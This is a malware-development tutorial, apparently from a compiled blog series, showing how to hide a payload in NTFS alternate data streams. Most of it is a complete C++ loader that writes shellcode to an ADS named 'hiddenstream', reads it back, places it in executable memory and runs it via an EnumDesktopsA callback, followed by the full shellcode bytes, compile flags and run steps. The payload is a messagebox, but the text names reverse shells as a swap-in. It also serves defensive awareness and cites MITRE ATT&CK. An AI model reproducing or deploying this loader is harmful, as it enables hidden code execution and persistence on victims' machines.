 \newpage
\subsection{46. malware development trick. Store payload in alternate data streams. Simple C++ example.}

﷽

![hack](./images/105/2023-07-27_04-58.png){width="80%"}      

Today, this post is the result of my own research on another popular malware development trick: store malicious data in alternate data streams (ADS) and how adversaries use it for persistence.     

### alternate data streams

Alternate Data Streams allow for multiple data "streams" to be associated with a single filename, a capability that can be used to store metadata. While this feature was designed to support *Macintosh Hierarchical File System (HFS)* which uses resource forks to store icons and other information for a file, it can be and has been used for hiding data and malicious code.    

### practical example

Below is a simple example code of storing payload in ADS `hack.c`:      

```cpp
/*
hack.c
malware store data in alternate data streams
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/26/malware-tricks-35.html
*/
#include <windows.h>
#include <stdio.h>

int main() {
  // name of the file to which we'll attach the ADS
  char* filename = "C:\\temp\\meow.txt";

  // name of the ADS
  char* streamname = "hiddenstream";

  // full path including the ADS
  char fullpath[1024];
  sprintf(fullpath, "%s:%s", filename, streamname);

  // the data we're going to write to the ADS
  // meow-meow messagebox
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  printf("original payload: ");
  for (int i = 0; i < sizeof(my_payload); i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  // write data to the ADS
  HANDLE hFile = CreateFile(fullpath, GENERIC_WRITE, 0, NULL, 
  CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  printf(hFile == INVALID_HANDLE_VALUE ? "unable to open file!\n" : 
  "successfully write payload data to the ADS\n");
  DWORD bw;
  WriteFile(hFile, my_payload, sizeof(my_payload) - 1, &bw, NULL);
  CloseHandle(hFile);

  // now read the data back
  hFile = CreateFile(fullpath, GENERIC_READ, 0, NULL, 
  OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
  printf(hFile == INVALID_HANDLE_VALUE ? "unable to open file!\n" : 
  "successfully read payload data from file\n");

  unsigned char data[sizeof(my_payload) - 1];
  DWORD br;
  ReadFile(hFile, data, sizeof(data), &br, NULL);
  CloseHandle(hFile);

  printf("read from file, payload:\n");
  for (int i = 0; i < sizeof(data); i++) {
    printf("%02x ", data[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, sizeof(data), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, data, sizeof(data));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

The logic is pretty simple. This code writes data to an ADS and then reads it back. Then execute payload data via [EnumDesktopsA](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html).      

As usually, I used `meow-meow` messagebox for simplicity:     

```cpp
unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";
```

This code creates an ADS named `hiddenstream` on the specified file and writes our payload data into it. It then reads the data back and prints it for checking correctness. In a real-world scenario, the data could be a malicious executable like reverse shell or another shellcode, which would need to be extracted to a temporary location and executed separately.       

### demo

Let's go to see this logic in action.      

Compile it:     

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![hack](./images/105/2023-07-27_04-59.png){width="80%"}      

Then, move our test victim file `meow.txt` to `C:\temp\`:     

![hack](./images/105/2023-07-27_23-22.png){width="80%"}      

And finally run:     

```powershell
.\hack.exe
```

![hack](./images/105/2023-07-27_23-21.png){width="80%"}      

We can check alternate data streams with command:     

```powershell
Get-Item -Path C:\temp\meow.txt -Stream *
```

![hack](./images/105/2023-07-27_23-24_1.png){width="80%"}      

![hack](./images/105/2023-07-27_23-24.png){width="80%"}      

As you can see, everything is worked as expected! =^..^=    

Note that the Alternate Data Streams (ADS) feature is specific to `NTFS`, other file systems like `FAT32`, `exFAT`, `ext4` (used by Linux), etc., do not support this feature.      

This method of executing code is often used by [APT29](https://attack.mitre.org/groups/G0016) and [APT32](https://attack.mitre.org/groups/G0050), software like [PowerDuke](https://attack.mitre.org/software/S0139)       

I hope this post spreads awareness to the blue teamers of this interesting malware dev technique, and adds a weapon to the red teamers arsenal.      

[T1564.004 - Hide Artifacts: NTFS File Attributes](https://attack.mitre.org/techniques/T1564/004/)      
[APT29](https://attack.mitre.org/groups/G0016)     
[APT32](https://attack.mitre.org/groups/G0050)     
[malpedia: APT29](https://malpedia.caad.fkie.fraunhofer.de/actor/apt29)     
[malpedia: APT32](https://malpedia.caad.fkie.fraunhofer.de/actor/apt32)      
[PowerDuke](https://attack.mitre.org/software/S0139)      
[source code in github](https://github.com/cocomelonc/meow/tree/master/2023-07-26-malware-trick-35)           
